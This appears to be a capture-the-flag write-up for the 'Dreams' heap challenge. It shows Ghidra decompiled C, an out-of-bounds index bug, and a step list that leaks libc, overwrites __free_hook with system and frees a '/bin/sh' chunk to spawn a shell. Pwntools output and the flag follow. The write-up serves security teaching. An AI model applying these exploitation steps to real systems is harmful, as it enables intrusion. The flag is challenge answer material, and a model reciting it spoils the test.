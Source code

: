 # Dreams
`ghidra` output
```c
void main(void) {
    long in_FS_OFFSET;
    int local_18;
    __gid_t local_14;
    undefined8 local_10;
  
    local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
    setbuf(stdout,(char *)0x0);
    local_14 = getegid();
    setresgid(local_14,local_14,local_14);
    dreams = malloc((long)(MAX_DREAMS << 3));
    puts("Welcome to the dream tracker.");
    puts("Sleep is where the deepest desires and most pushed-aside feelings of humankind are brought out.");
    puts("Confide a month of your time.");
    local_18 = 0;
    while( true ) {
        while( true ) {
            menu();
            printf("> ");
            __isoc99_scanf(&DAT_00402104,&local_18);
            getchar();
            if (local_18 != 3) break;
            psychiatrist();
        }
        if (3 < local_18) break;
        if (local_18 == 1) {
            gosleep();
        }
        else {
            if (local_18 != 2) break;
            sell();
        }
    }
    puts("Invalid input!");
    exit(1);
}

void psychiatrist(void) {
    long in_FS_OFFSET;
    int local_14;
    long local_10;
  
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    puts("Due to your HMO plan, you can only consult me to decipher your dream.");
    printf("What dream is giving you trouble? ");
    local_14 = 0;
    __isoc99_scanf(&DAT_00402104,&local_14);
    getchar();
    if (*(long *)(dreams + (long)local_14 * 8) == 0) {
        puts("Invalid dream!");
        exit(1);
    }
    printf("Hmm... I see. It looks like your dream is telling you that ");
    puts((char *)(*(long *)(dreams + (long)local_14 * 8) + 8));
    puts("Due to the elusive nature of dreams, you now must dream it on a different day. Sorry, I don\' t make the rules. Or do I?");
    printf("New date: ");
    read(0,*(void **)(dreams + (long)local_14 * 8),8);
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }
    return;
}

void gosleep(void) {
    size_t sVar1;
    long in_FS_OFFSET;
    int local_1c;
    char *local_18;
    long local_10;
  
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    puts("3 doses of Ambien finally calms you down enough to sleep.");
    puts("Toss and turn all you want, your unconscious never loses its grip.");
    printf("In which page of your mind do you keep this dream? ");
    local_1c = 0;
    __isoc99_scanf(&DAT_00402104,&local_1c);
    getchar();
    if (((local_1c < MAX_DREAMS) && (-1 < local_1c)) && (*(long *)(dreams + (long)local_1c * 8) == 0))
    {
        local_18 = (char *)malloc(0x1c);
        printf("What\'s the date (mm/dd/yy))? ");
        read(0,local_18,8);
        sVar1 = strcspn(local_18,"\n");
        local_18[sVar1] = '\0';
        printf("On %s, what did you dream about? ",local_18);
        read(0,local_18 + 8,0x14);
        *(char **)((long)local_1c * 8 + dreams) = local_18;
        if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
            __stack_chk_fail();
        }
        return;
    }
    puts("Invalid index!");
    exit(1);
}

void sell(void) {
    long in_FS_OFFSET;
    int local_14;
    long local_10;
  
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    puts("You\'ve come to sell your dreams.");
    printf("Which one are you trading in? ");
    local_14 = 0;
    __isoc99_scanf(&DAT_00402104,&local_14);
    getchar();
    if ((local_14 < MAX_DREAMS) && (-1 < local_14)) {
        puts("You let it go. Suddenly you feel less burdened... less restrained... freed. At last.");
        free(*(void **)(dreams + (long)local_14 * 8));
        puts("Your money? Pfft. Get out of here.");
        if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
            __stack_chk_fail();
        }
        return;
    }
    puts("Out of bounds!");
    exit(1);
}
```
In the `psychiatrist` function, where it reads a number from stdin and outputs the string at that index in the dreams array. The vulnerability is that it does not do bounds checking, it instead checks that the pointer is not null. The dreams array is `malloc`ed at the beginning of main, and the `gosleep` function `malloc`s buffers and stores them in the dreams array.<br>
We can exploit the fact that both buffers are stored on the heap by giving the psychiatrist function an offset that will point it to our input. It will then interpret our input as a `char *` and allow us to read and write to that pointer.<br>
The first step is computing the offset between the dreams array and the buffers created in `gosleep`. Strangely when running the binary in `gdb` the offset was 1088 bytes or 136 pointers, but when running the binary through `pwntools` the offset was different. In order to determine the correct offset I wrote a brute force script that tried every single offset from 10 to 1000. The correct offset was found when the program ended in a segfault. The offset turned out to be 4168 bytes or 521 pointers.<br>
One small complication was that the binary was compiled with Full Relro, meaning that the GOT table was read only. But the `libc.so.6` the binary was using only had Partial Relro, so a function pointer in `libc.so.6` would have to be overwritten instead. <br>
The attack was relatively simple after that as the program provided arbitrary read and write gadgets.
1. read the dynamic address of `puts`
2. calculate libc base
3. overwrite `__free_hook` with system
4. free a chunk with `"/bin/sh\x00"` inside
5. shell

```
[+] Opening connection to challs.actf.co on port 31227: Done
[*] '/home/runner/nothingtosee/DREAMS/dreams'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/runner/nothingtosee/DREAMS/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
GOT_SYM equ 0x403f90
LIB SYM: 0x84450
b'PD\xb4^\xe4\x7f\x00\x00'
LEAKED SYM: 0x7fe45eb44450
LIBC ADDRESS: 0x7fe45eac0000
FREE HOOK: 0x7fe45ecaee48
[*] Switching to interactive mode
You let it go. Suddenly you feel less burdened... less restrained... freed. At last.
$ ls
flag.txt
run
$ cat flag.txt
actf{hav3_you_4ny_dreams_y0u'd_like_to_s3ll?_cb72f5211336}
```
## Flag: actf{hav3_you_4ny_dreams_y0u'd_like_to_s3ll?_cb72f5211336}